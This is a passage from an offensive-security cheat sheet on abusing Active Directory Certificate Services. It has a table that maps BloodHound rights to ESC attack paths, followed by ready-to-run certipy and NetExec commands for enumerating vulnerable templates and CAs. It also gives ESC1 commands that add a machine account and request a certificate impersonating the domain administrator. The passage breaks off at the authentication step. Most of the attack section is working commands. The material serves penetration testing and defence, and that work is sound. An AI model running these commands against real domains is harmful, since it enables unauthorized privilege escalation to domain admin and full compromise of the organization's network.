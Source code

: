 | **AddMember**         | ESC13                                                    | Add users/groups to Enrollment Agent–linked groups via OID group memberships.       | Required for ESC13 path abuse.                                                               |
| **AllExtendedRights** | ESC3, ESC15                                              | Perform certificate requests (e.g., Enrollment Agent, Request Agent).               | Abuses dangerous extended rights on templates.                                               |
| **AllowedToDelegate** | —                                                        | Not directly mapped to AD CS ESC abuses.                                            | More relevant for RBCD/unconstrained delegation abuse outside of AD CS.                      |
| **ReadProperty**      | —                                                        | Not directly relevant to AD CS ESC cases.                                           | May be used in reconnaissance (reading cert template attributes).                            |
| **Other/Utility**     | ESC8, ESC10                                              | Relay to CA (`ESC8`) or weak registry config abuse (`ESC10`).                       | Not strictly BloodHound edge–based; external/host-level or relay-based attacks.              |

##### Enumeration

###### Search for vulnerable certificate templates

```sh
certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
```

###### Find PKI Enrollment Services in Active Directory and Certificate Templates Names

```sh
nxc ldap target -u username -p password -M adcs
```

###### Anonymously use RPC endpoints to hunt for ADCS CAs

```sh
nxc smb target -M enum_ca
```

##### Attacks

###### ESC1

```sh
addcomputer.py domain/username:password -computer-name computer_name -computer-pass computer_password
```

```sh
certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
```

Or:

```sh
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip
```

If `Minimum RSA Key Length : 4096` → add `-key-size 4096`:

```sh
certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096
```

Authenticate:
